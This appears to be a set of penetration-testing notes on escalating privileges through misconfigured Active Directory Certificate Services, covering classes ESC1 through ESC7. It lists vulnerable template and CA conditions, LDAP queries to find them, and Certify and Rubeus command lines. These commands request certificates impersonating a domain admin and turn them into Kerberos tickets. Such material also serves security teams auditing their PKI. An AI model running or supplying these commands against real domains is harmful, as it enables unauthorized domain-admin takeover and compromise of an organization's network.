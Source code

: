 ## ESC1 - Misconfigured Certificate Templates

There is a certain set of settings that make certificate templates vulnerable, ex: low priv user to DA.

	* The enterpricse CA grants low-priv users enrollment rights
	* Manager approval is disabled
	* No authorized signatures are required
	* An overly permissive certificate template security descriptor grants certificate enrollment rights to low-priv users
	* The certificate template defines EKUs that enable authentication
	* The ceritificate template allows requesters to specify a SAN in the CSR

Certify can be used to find vulnerable templates.
```
# find vuln templates
certify.exe find /vulnerable


#request a certificate
certify.exe request /ca:domain\dcNAME /template:templatename /altname:localadmin(name of DA)

# Rubeus can then be used to request a TGT as the DA user
Rubeus.exe asktgt /user:localadmin /certificate:localadmin.pfx /password:Password123! /ptt
```

The following LDAP query can be used to enumerate certificate templates that do not require approval/signatures and that have a client auth EKU

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))
```


## ESC2 - Misconfigured Certificate Templates

This is a variation of ESC1, this works under the following conditions.

	* Enterprise CA grants low-priv users enrollment rights
	* Manager approval is disabled
	* No authorized signatures are required
	* An overly permissive certificate template security descriptor grants certificate enrollment rights to low-priv users
	* Certificate template defined the Any Purpose EKU or no EKU

The following LDAP query can be used to find certificate templates with these conditions.

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))
```



## ESC3 - Misconfigured Enrollment Agent Templates

Similar to 1 and 2 but abuses a different EKU and requires an additional step. The certificate request agent EKU (OID 1.3.6.1.4.1.311.20.2.1) allows a user to enroll for a certificate on behalf of another user. This requires a CA to have at least two templates matching the following conditions:

1. A template allows a low-priv user to enroll in an enrollment agent certificate
	* Enterprise CA grants low-priv users enrollment rights
	* Manager approval is disabled
	* No authorized signatures are required
	* An overly permissive certificate template security descriptor grants certificate enrollment rights to low-priv users
	* Certificate template defines the certificate request agent EKU


2. Another template permits a low-priv user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication
	* Enterprise CA grants low-priv users enrollment rights
	* Manager approval is disabled
	* Template schema vertion 1 or is greater than 2 and specifies an application policy issuance requiring the certificate request agent EKU
	* The certificate template defines an EKU that allows for domain authentication.
	* Enrollment agent restrictions are not implemented on the CA

certify can be used to abuse this
```
#request the enrollment agent certificate
certify.exe request /ca:domain\dcNAME /template:templateNAME


# certify can be used to issue a certificate request on behalf of a user
certify.exe /ca:domain\dcNAME /template:User /onbehalfof:domain\admin
/enrollcert:enrollmentagentcert.pfx /enrollcertpw:asdf


# Rubeus can be used from here
Rubeus.exe asktgt /user:domain\admin /certificate:adminfromenrollmentagent.pfx /password:asdf
```


## ESC4 - Vulnerable Certificate Access control

A template would be considerd vulnerable at the access control level if an ACE exists that allow unintended, or unprivileged AD principals to edit sensitive security settings in the template. The specific rights we are concerned with here is "Full control" and "Write". The full rights are: Owner, FullControl, WriteOwner, WriteDacl, WriteProperty


Certifys find command can enumeratea these ACEs and this is also being worked into BH




## ESC5 - Vulnerable PKI Access Control

The ACL based relationship within AD can compromise the entire AD CS implementation.

	* The CA server's computer object
	* the CA server's RPC/DCOM
	* Any descendant AD object or container in the container CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM> (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services Container, etc.)



## ESC6 - EDITF_ATTRIBUTESUBJECTNAME2

This escalation method involved the EDITF_ATTRIBUTESUBJECTNAME2 attribute. From the specterops paper, "If this flag is set on the CA, any request (including when the subject is built from Active Directory®) can have user defined values in the subject alternative name."

Certutil can be used to check is this setting is enabled:
```
certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"


# this reg query can also be used
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags


# Certifys find will also search this on every CA it finds
certify.exe find
```

This can be abused with the /altname option
```
certify.exe request /ca:domain\dcNAME /template:User /altname:admin
```

## ESC7 - Vulnerable Certificate Authority Access Control 

A CA has a set of permissions that secure its actions. These can be enumerated through the GUI, certsrv.msc. Right click a CA and select properties > security. PSPKI module can be used in powershell 

```powershell
# The two main rights we are looking for is ManageCA and ManageCertificates

Get-CertificationAuthority -ComputerName dc.name | Get-CertificationAuthorityAcl | select -expand Access
```


